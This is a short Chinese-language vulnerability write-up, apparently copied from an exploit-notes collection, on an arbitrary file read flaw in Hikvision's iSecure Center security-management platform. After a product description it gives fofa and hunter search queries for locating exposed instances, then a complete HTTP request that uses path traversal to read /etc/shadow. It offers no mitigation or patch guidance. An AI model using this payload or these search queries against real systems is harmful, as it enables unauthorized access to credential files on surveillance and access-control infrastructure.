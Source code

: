 # 海康威视iSecure Center 综合安防管理平台download任意文件读取漏洞

# 1、漏洞描述
<font style="color:rgb(0, 0, 0);">HIKVISION iSecure Center综合安防管理平台是一套“集成化”、“智能化”的平台，通过接入视频监控、一卡通、停车场、报警检测等系统的设备，获取边缘节点数据，实现安防信息化集成与联动，以电子地图为载体，融合各系统能力实现丰富的智能应用。HIKVISION iSecure Center平台基于“统一软件技术架构”先进理念设计，采用业务组件化技术，满足平台在业务上的弹性扩展。该平台适用于全行业通用综合安防业务，对各系统资源进行了整合和集中管理，实现统一部署、统一配置、统一管理和统一调度。海康威视iSecure Center 综合安防管理平台download任意文件读取漏洞</font>

# <font style="color:rgb(0, 0, 0);">2、影响版本</font>
<font style="color:rgb(0, 0, 0);">HIKVISION iSecure Center综合安防管理平台 </font>

![1691858087491-a6e46e3a-cb01-43dc-9dfc-382889c5dcae.png](./img/YR0nPcEELd6uSCWt/1691858087491-a6e46e3a-cb01-43dc-9dfc-382889c5dcae-599682.png)

# <font style="color:rgb(0, 0, 0);">3、资产测绘</font>
**hunter查询语法：**

`app.name=="Hikvision 海康威视 iSecure Center"`

fofa：`title="综合安防管理平台"`

# 4、漏洞复现
```java
GET /center/api/task/..;/orgManage/v1/orgs/download?fileName=../../../../../../../etc/shadow HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![1717149873962-7544801a-20c4-4831-a338-b486e5c32913.png](./img/YR0nPcEELd6uSCWt/1717149873962-7544801a-20c4-4831-a338-b486e5c32913-126761.png)



> 更新: 2024-06-01 11:04:36  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/soa7px4tqz4enpdm>